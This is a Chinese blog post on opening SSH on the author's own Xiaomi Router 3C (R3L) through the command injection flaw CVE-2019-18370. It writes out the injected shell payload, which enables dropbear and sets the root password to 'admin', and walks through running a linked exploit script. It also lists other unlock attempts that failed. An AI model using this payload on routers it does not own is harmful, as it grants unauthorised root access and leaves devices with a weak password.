 ```yaml
---
layout: post
title:  "小米路由器3C (R3L) SSH 开启方法"
date:   2020-04-22 09:23:39 +0800
categories: router
---
```

# 初衷：
 在串连式双路由器型环境下设置静态路由，奈何小米路由器没提供这个功能，只能开启ssh 手动添加路由器表
# 原理：

  利用 远程命令执行漏洞（CVE-2019-18370）root权限 , 具体是 /api/xqnetdetect/netspeed 存在命令注入漏洞 , 远程执行脚本如下
  ```bash
nvram set ssh_en=1; nvram commit ;
sed -i ';:x:N:s/if \[.*\; then\n.*return 0\n.*fi/#tb/;b x'; /etc/init.d/dropbear 
/etc/init.d/dropbear start
(echo 'admin'; sleep 1; echo 'admin') | passwd 'root' >/dev/null 2>&1
  ```
### 工具
1. 固件：[miwifi_r3l_firmware_a5c81_2.9.217.bin]
2. python3
3. 脚本: [remote_command_execution_vulnerability.py]



# 步骤：
1. 执行 python3 remote_command_execution_vulnerability.py ,输入 stok (来源于路由器登录后url)
{% highlight bash %}
% python3 remote_command_execution_vulnerability.py 
stok: 03b2da2xxxxx
{% endhighlight %}

2. 执行后 就应该能登录了, ssh root/admin
   `ssh root@192.168.31.1 `

# 折腾过程
1. mini r1l 漏洞 set_router_wifiap ,binwalk 查看源码发现已封堵
2. 小米路由器的nginx配置文件错误，导致目录穿越漏洞, 结果 404, 已封堵
3. 使用 miwifi_r3_all_55ac7_2.11.20.bin 固件，文件太大 无法升级固件，r3l NorFlash内存大小 16M
4. 自定义固件,binwalk 解压固件，修改lua, dd切分，squashfs打包，发现公钥校验rom, 此路不通
5. 使用ttl(非编程器),uart_en=0 无法输入, 此路不通

# Q&A
大家如果有问题 可以提issue 到 [howblog github]

# 参考: 
1. [Xiaomi_Mi_WiFi_R3G_Vulnerability_POC]
2. [SSH开启命令]
3. [CVE-2019-18370]



[SSH开启命令]: https://www.jianshu.com/p/37d0aa13614c
[CVE-2019-18370]:   https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md
[Xiaomi_Mi_WiFi_R3G_Vulnerability_POC]: https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC
[miwifi_r3l_firmware_a5c81_2.9.217.bin]: /assets/miwifi_r3l_firmware_a5c81_2.9.217.bin
[remote_command_execution_vulnerability.py]:/assets/remote_command_execution_vulnerability.py
[howblog github]: https://github.com/mysansa52/howblog.github.io/issues